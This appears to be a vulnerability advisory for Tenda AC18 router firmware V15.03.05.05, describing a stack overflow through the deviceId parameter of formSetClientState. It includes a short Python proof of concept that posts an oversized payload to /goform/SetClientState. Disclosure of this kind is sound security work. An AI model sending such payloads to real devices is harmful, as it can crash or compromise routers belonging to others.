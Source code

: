 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `v9` can trigger this security vulnerability.

![image-20240305223025837](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223025837.png)

![image-20240305223038098](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223038098.png)

![image-20240305223056646](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223056646.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305222933979](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305222933979.png)
